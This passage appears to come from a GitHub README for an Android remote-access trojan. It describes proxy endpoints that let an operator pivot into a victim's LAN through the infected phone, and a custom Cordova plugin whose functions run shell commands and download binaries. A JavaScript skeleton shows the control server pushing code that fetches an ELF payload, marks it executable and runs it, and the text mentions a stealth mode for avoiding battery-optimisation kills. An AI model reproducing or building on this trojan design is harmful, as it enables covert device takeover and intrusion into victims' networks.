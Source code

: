 
+ __[GET]__ /runproxy & /pushproxy

This will run `reverse_http.py` in a separate screen, then returns a IP:PORT (HTTP proxy), that will allow the admin to pivote HTTP requests through the trojan device. For instance, if the Admin sets these info in the browser settings and try to open router port (Ex: `http://192.16...`), the browser will open the router web interface as if the admin was a part the target LAN.




2. [Client/Trojan (__Android__)](https://github.com/BenChaliah/Arbitrium-Android): The app is build using Cordova for its simplicity and support for cross-platform developpement. This app relays of two main parts


	1. ##### __netbolt-orange-plugin__: 

		this is a cordova plugin I made, it contains few functions that we can call from `index.html`, scripts downloaded via `/checkupdate.js` mainly use these methods to run the assigned task

		    + __exec()__ : execute shell cmd then returns the cmd output, it runs on the __UI thread__

		    + __poolexec()__ : same as 'exec()', but this one uses the `ThreadPoolExecutor` so the App can run a cmd without blocking the main thread, when the output is ready, it sent via a callback with the exit status

		    + __download()__ : this one is for downloading whatever resources the API or the admin may want or need to execute a task


	**Example**:
	The trojan at first requests `/checkupdate.js`, let assumes this is an Android phone and we want to initiate the [StealthMode/BatteryBypass](#stealthmode) to avoid getting killed (Battery optimizations ...), the API then responde with something like:


	```javascript
	function sfunc1(){
	    window.MyOrangePlugin.download([{Link for ELF} ...], function(res){
	        sfunc2(...);
	    });
	}
	function sfunc2(...){
	    window.MyOrangePlugin.exec("chmod ... ", function(res){
	    	sfunc3(...);
	    });
	}
	function sfunc3(...){
	    window.MyOrangePlugin.poolexec({Here we start the binary the will keep interacting with the API}, function(res){
	    	...
	    });
	}
	```

	> The app also uses a slightly customized version of Cordova background mode plugin.


